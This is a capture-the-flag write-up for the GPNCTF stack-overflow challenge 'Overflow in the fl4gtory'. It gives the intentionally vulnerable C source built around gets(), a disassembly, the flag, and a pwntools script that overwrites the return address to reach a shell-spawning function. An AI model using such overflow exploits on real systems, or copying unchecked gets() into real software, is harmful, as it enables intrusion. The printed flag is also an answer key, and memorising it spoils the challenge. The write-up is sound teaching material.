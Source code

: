 # Overflow in the fl4gtory
<p align="center">
  <img src="Attachments/Description.png" />
</p>

## FLAG:
`GPNCTF{M0re_0verf0ws_ar3_c0ming_:O}`

## Solution
The challenge provides the following source code in the [attachment](Attachments/overflow-in-the-fl4gtory.tar.gz):

```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o overflow-in-the-fl4gtory overflow-in-the-fl4gtory.c

void shutoff() {
	printf("Pipe shut off!\n");
	printf("Congrats! You've solved (or exploited) the overflow! Get your flag:\n");
	execve("/bin/sh", NULL, NULL);
}


int main() {
	char buf[0xff];
	gets(buf);
	puts(buf);
	return 0;
}
```

The program is very simple as it uses `gets` and `puts` to fill and print a limited size buffer. The problem consists in the fact that no checks are made on the input that is inserted, this leads to the possibility of overloading the buffer by altering the stack and thus controlling the execution flow. The purpose of the challenge is to exploit the *buffer overflow* to overwrite the return address with the address of the `shutoff` function so as to have a shell. To do this you need to figure out how many characters you need to enter before the return address is actually overwritten.

```assembly
pwndbg> disass main
Dump of assembler code for function main:
   0x0000000000401184 <+0>:     push   rbp
   0x0000000000401185 <+1>:     mov    rbp,rsp
   0x0000000000401188 <+4>:     sub    rsp,0x100
   0x000000000040118f <+11>:    lea    rax,[rbp-0x100]
   0x0000000000401196 <+18>:    mov    rdi,rax
   0x0000000000401199 <+21>:    mov    eax,0x0
   0x000000000040119e <+26>:    call   0x401050 <gets@plt>
   0x00000000004011a3 <+31>:    lea    rax,[rbp-0x100]
   0x00000000004011aa <+38>:    mov    rdi,rax
   0x00000000004011ad <+41>:    call   0x401030 <puts@plt>
   0x00000000004011b2 <+46>:    mov    eax,0x0
   0x00000000004011b7 <+51>:    leave
   0x00000000004011b8 <+52>:    ret
End of assembler dump.
```

Analyzing the decompiled code we can observe that 256 bytes (0x100) are reserved for the buffer (i.e. 255 for input + 1 null byte to identify the end of the string), to which we must add another 8 bytes to overwrite the pointer contained in the register *rbp* (Return Base Pointer). We can verify the correctness of what has been said through the use of *pwndbg* by inserting a payload of 264 and viewing the contents of the register.

<p align="center">
  <img src="Attachments/poc.png" />
</p>

Finally, to conclude the challenge, just insert the `shutoff` address in the payload and to do this the following [script](Attachments/solve.py) was written.

```python
from pwn import *

if args.DEBUG:
    p = gdb.debug("./overflow-in-the-fl4gtory")

elif args.REMOTE:
    p = process(['ncat', '--ssl', 'overflow-in-the-fl4gtory-0.chals.kitctf.de', '1337'])
else:
    p = process("./overflow-in-the-fl4gtory")
    if args.GDB:
        gdb.attach(p, gdbscript="""
            break main
        """)


exe = ELF("./overflow-in-the-fl4gtory", checksec=False)
shutoff = exe.symbols.shutoff

p.sendline(b"A" * (256 + 8) + p64(shutoff))
p.interactive()
```